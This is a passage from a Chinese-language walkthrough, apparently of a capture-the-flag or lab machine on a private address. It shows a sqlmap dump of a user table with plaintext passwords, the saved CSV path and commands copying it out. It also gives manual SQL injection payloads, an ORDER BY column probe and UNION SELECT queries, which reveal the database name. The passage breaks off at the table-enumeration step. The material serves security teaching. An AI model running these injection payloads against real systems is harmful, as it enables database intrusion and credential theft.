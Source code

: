 ```
| 14 | phoebeb   | Buffay     | 2019-12-29 16:58:26 | smellycats    | Phoebe    |
| 15 | scoots    | McScoots   | 2019-12-29 16:58:26 | YR3BVxxxw87   | Scooter   |
| 16 | janitor   | Trump      | 2019-12-29 16:58:26 | Ilovepeepee   | Donald    |
| 17 | janitor2  | Morrison   | 2019-12-29 16:58:28 | Hawaii-Five-0 | Scott     
```

![image-20220322165842531](https://gitee.com/xxb667/img/raw/master/img/image-20220322165842531.png)

保存的文件路径

```
table 'users.UserDetails' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.81.145/dump/users/UserDetails.csv'
```

```
cd /root/.local/share/sqlmap/output/192.168.81.145/dump/users/
```

把文件复制到xxb1目录下，再把文件拷贝到物理机上

```
cp UserDetails.csv /home/xxb1
```



## 2.3 判断字段数

```
Mary' order by 6#
```

正常显示说明字段数为6

![image-20220322151725634](https://gitee.com/xxb667/img/raw/master/img/image-20220322151725634.png)

## 2.4 爆库

```
-1' union select database(),1,2,3,4,5#
```

```
-1' union select 1,2,3,database(),4,5#
```

得到数据库名称为：

```
Staff
```

![image-20220322151902818](https://gitee.com/xxb667/img/raw/master/img/image-20220322151902818.png)

## 2.5 爆表
